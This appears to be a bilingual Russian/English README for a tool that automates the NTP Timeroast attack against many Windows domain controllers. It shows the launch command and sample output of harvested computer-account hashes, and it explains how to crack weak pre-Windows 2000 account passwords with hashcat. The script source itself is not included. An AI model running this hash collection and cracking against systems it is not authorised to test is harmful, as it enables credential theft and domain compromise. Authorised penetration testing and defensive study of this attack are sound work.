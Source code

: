## Информация / Information

Скрипт для циклического автоматизированного сбора хешей с большого количества серверов синхронизации времени контроллеров домена Microsoft Windows. Скрипт доработан на основе скрипта `https://github.com/SecuraBV/Timeroast`

A script for the cyclic automated collection of hashes from a large number of time synchronization servers of Microsoft Windows domain controllers. The script has been finalized based on the script `https://github.com/SecuraBV/Timeroast`

## Подготовка и запуск / Preparation and launch

Сохраните адреса контроллеров домена в файл, например: `file.txt`. 
Выполните следующую команду с вашего хоста указав аргумент `-f` - файл с контроллерами домена и `-o` - файл экспорта. 

Save the addresses of the domain controllers to a file, for example: `file.txt `. 
Run the following command from your host, specifying the argument `-f` for the domain controller file and `-o` for the export file.

Ниже приведен пример команды / The following is an example of a command:
```
python3 timeroast_gis.py -f file.txt -o export.txt
```

## Пример работы / Example of work
```

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 timeroast_gis.py -f file.txt -o export.txt

     ██████  ██ ███████  ███████ ██    ██ ██████  ███████  ██████  ████████ ███████    ██     ███    ███ 
    ██       ██ ██       ██       ██  ██  ██   ██ ██       ██   ██    ██    ██       ██  ██   ████  ████ 
    ██   ███ ██ ███████  ██         ██    █████   █████    ██████     ██    █████   ██    ██  ██ ████ ██ 
    ██    ██ ██      ██  ██         ██    ██   ██ ██       ██   ██    ██    ██      ████████  ██  ██  ██ 
     ██████  ██ ███████  ███████    ██    ███████ ███████  ██   ██    ██    ███████ ██    ██  ██      ██ 
    
Starting NTP Timeroast attack...

[+] Processing host 1/1: 10.10.10.2
    Checking RIDs 0-29999...
    Finished checking RIDs 0-29999.

    Checking RIDs 30000-59999...
    Finished checking RIDs 30000-59999.

    Checking RIDs 60000-89999...
        Found hash for RID 60018
        Found hash for RID 60027
        Found hash for RID 60061
        Found hash for RID 60062
        Found hash for RID 60069
        Found hash for RID 60070
```

## Дальнейшая эксплуатация / Further operation

При наличии в инфраструктуре хостов версии `Windows NT4` или хостов, введенных в домен с включенным чекбоксом `Assign this computer account as a pre-Windows 2000 computer`, можно подобрать пароли от компьютерных учетных записей через сгенерированный словарь по их имени. Для этого необходимо использовать [hashcat beta-версии](https://hashcat.net/beta/).

If there is a `Windows NT4` version of hosts in the infrastructure or hosts entered into the domain with the `Assign this computer account as a pre-Windows 2000 computer` checkbox enabled, you can select passwords from computer accounts through the generated dictionary by their name. To do this, you need to use [hashcat beta versions](https://hashcat.net/beta/).
